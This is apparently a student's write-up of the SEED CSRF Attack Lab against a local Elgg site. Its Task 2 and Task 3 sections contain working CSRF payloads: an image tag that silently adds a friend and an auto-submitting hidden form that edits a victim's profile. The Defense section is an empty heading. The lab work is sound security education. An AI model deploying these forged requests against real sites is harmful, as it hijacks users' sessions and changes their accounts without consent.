 # Cross-Site Request Forgery (CSRF) Attack Lab
- a CSRF attack involves a victim user, a trusted site, and a malicious site, the victim user holds an active session with a trusted site while visiting a malicious site. The malicious site injects an HTTP request for the trusted site into the victim user session, causing damages
- web application used: `Elgg`
- topics
    - CSRF attack
    - CSRF countermeasures: Secret token and Same-site cookie
    - JavaScript and Ajax

## Lab Setup
- the Elgg container (`10.9.0.5 www.seed-server.com`)
- the attacker container (`10.9.0.105 www.attacker32.com`)
- DNS configuration
    ```
    10.9.0.5 www.seed-server.com
    10.9.0.5 www.example32.com
    10.9.0.105 www.attacker32.com
    ```

## Task 1: Observing HTTP Request
- use HTTP Header Live on Firefox

## Task 2: CSRF Attack using GET Request
- use Alice's and Samy's account, use CSRF to make Alice add Samy to her Elgg friend list
- login as Samy, add Charlie as friend, use HTTP Header Live to see the request
    - URL (duplicated parameters are removed) `http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1707056081&__elgg_token=-RraUFTlunG52v081kwsbw`
- requirement: not use JS code, the attack should succeed as soon as Alice visits the page
- `__elgg_ts` and `__elgg_token` are actually used to defeat CSRF, in this lab, they are disabled
- so, the link to add Samy to friend list is `http://www.seed-server.com/action/friends/add?friend=59`, `59` is the id of Samy, we can figure this out by use another account to add Samy and inspect the request URL
- when Alice clicks a link from Samy, she visits `www.attacker32.com`, to trigger a GET request to Elgg, use an image tag `<img>` in `www.attacker32.com`, add the following content to `Labsetup/attacker/addfriend.html`
    - `<img src="http://www.seed-server.com/action/friends/add?friend=59" />`
- when Alice logged into Elgg, and visits `www.attacker32.com/addfriend.html`, it triggers a GET request to Elgg, and add Samy to Alice's friend list

## Task 3: CSRF Attack using POST Request
- use CSRF to edit Alice's profile to `Samy is my Hero`
- inspect the HTTP request when clicking save on the profile edit page, it is a POST request, the data in request body is `name=Samy$description=<p>123456</p>&guid=59` (I removed some parameters that is not used), the URL is `http://seed-server.com/samy/edit`
- by adding Alice to friend list, we can get Alice's guid from the request URL, its 56, so we need to construct a POST request with data `name=Alice$description=<p>Samy is my Hero</p>&guid=56`, and the URL should be `http://seed-server.com/action/profile/edit`
- we can set these values in the given `editprofile.html`, in this file it modifies `Brief description`, instead of `About Me`
    ```
    <script type="text/javascript">
    function forge_post() {
        var fields;

        fields += "<input type='hidden' name='name' value='Alice'>";
        fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero'>";
        fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
        fields += "<input type='hidden' name='guid' value='56'>";

        var p = document.createElement("form");
        p.action = "http://www.seed-server.com/action/profile/edit";
        p.innerHTML = fields;
        p.method = "post";

        document.body.appendChild(p);
        p.submit();
    }
    window.onload = function() { forge_post();}
    </script>
    ```

- Question: what if we want to modify the profile of all users who visits the malicious site
    - we need to dynamically get the name and guid of the victims
    - use `<iframe src="http://www.seed-server.com">` to load Elgg inside the attacker's site, if we success, we can put the script inside the iframe, and use `elgg.session.user.name` and `elgg.session.user.guid` to get user name and guid
    - however, the Elgg website cannot be loaded in the iframe, the error information is `"To protect your security, www.seed-server.com will not allow Firefox to display the page if another site has embedded it. To see this page, you need to open it in a new window"`, there might be a countermeasure implemented in the Elgg application

## Task: Defense
